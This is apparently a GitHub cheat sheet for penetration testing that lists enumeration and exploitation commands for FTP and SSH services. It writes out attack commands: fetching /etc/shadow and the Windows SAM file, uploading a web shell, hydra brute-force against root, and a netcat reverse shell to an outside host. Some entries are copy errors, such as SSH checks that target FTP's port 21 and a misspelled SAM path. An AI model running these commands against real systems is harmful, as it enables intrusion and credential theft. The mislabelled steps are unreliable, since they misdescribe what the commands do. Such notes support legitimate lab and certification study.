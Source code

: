 > Adding constantly content, depending on free time :)

> Instead of writing a list of tasks to perform on each port/service, as [0daysecurity's](http://www.0daysecurity.com/penetration-testing/enumeration.html), I will write the full command with arguments to enumerate and (possibly) exploit it. 
>``$ip`` refers to simply the variable assigned with ``export ip=10.10.10.10`` 
> Remember to **switch** between wordlists if one just doesn't give out results



General
------------
  ##### Enumeration
  * Banner: 
    * `nc -vn $ip [PORT]`
  ##### Exploitation
  * ` searchsploit [SERVICE NAME]+[VERSION]`
  
## Common ports
-------------
-------------
### 21 (FTP)
  ##### Enumeration
  * Anonymous login
    * ``nmap --script ftp-anon -p21 $ip``
  ##### Exploitation
  * Connect and try to download/upload files (even if you can't ``cd`` into that directory): 
    * ``get /etc/shadow `` 
    * ``get C:\\Windows\\system3\\config\\SAM`` 
    * ``put shell.aspx``
  * Brute-force: 
    * `` hydra -l root -P /usr/share/wordlists/rockyou.txt $ip ftp -t 1``

### 22 (SSH)
  ##### Enumeration
  * Banner: 
    * `nc -vn $ip 21`
  * Anonymous login
    * ``nmap --script ftp-anon -p21 $ip``
  ##### Exploitation
  * Reuse private key from other machines
  * Shellshock:
    * ``ssh root@$ip 'nc 1.1.1.1 80 -e /bin/bash'``
  * Brute-force: 
    * `` hydra -l root -P /usr/share/wordlists/rockyou.txt $ip ssh``
